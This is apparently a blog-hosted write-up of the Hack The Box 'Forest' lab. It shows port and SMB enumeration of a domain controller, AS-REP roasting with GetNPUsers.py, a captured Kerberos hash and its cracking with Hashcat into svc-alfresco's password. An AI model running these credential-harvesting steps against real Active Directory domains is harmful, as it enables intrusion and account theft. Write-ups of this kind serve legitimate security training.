

repository: gmrvh/blog · page: htb/forest/index.html · generator: mkdocs

# Forest - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

### Domain Information
From the scan results, I identified domain information:
```
OS: Windows Server 2016 Standard 14393
Computer name: FOREST
NetBIOS computer name: FOREST
Domain name: htb.local
Forest name: htb.local
FQDN: FOREST.htb.local
```

### SMB Enumeration
I attempted to enumerate SMB shares and users:
```bash
nmap --script=smb-enum-* -p 445 10.129.95.210
```

This revealed numerous domain users, including:
- Administrator
- andy
- lucinda
- mark
- santi
- sebastien
- svc-alfresco

I also noticed several service accounts and Exchange-related accounts:
- HealthMailbox accounts
- Service accounts for Exchange

### RPC Enumeration
I performed RPC enumeration to find additional information:
```bash
rpcdump.py 10.129.95.210
```

This provided information about available RPC endpoints and services.

## Gaining Initial Access

### AS-REP Roasting
With the list of users obtained from SMB enumeration, I attempted AS-REP Roasting to identify accounts with Kerberos pre-authentication disabled:
```bash
GetNPUsers.py htb.local/ -dc-ip 10.129.95.210 -request -usersfile users.txt
```

This revealed a hash for the "svc-alfresco" user:
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:64cee1c2607306d7d7034e857120fd0b$4e3f2c02330bdf0b4295adf20df3b1076aebc27fe11e8be92a450f3c0d6b94bcafcaece4483811efdc6369ae6d4f903df753cb99abe9dcdb22a2148f37ae987a8aa1ed9d35e40e7335aec91e52c5b4dcd9aac36abbca173956fd3b1d6689f5a89eec53d9ea715bbd650c3be39128b60a518e4d8c6e17836695798304c32e3f1d3185d89a7446dff8f7f314ee9ac4adc1c41ce8ae482de95d87d399ca3912379f3e005401f1f87b4ca93758b29e1a3a814166cf89a07c7721429ab4f813540aa90f2f7e8459915dd239cbf523b68fd242d7527b33a2197b6a3df48e4245b43ddf5a3105515d53
```

### Password Cracking
I used Hashcat to crack the obtained hash:
```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

This revealed the credentials:
- **Username**: svc-alfresco
- **Password**: s3rvice
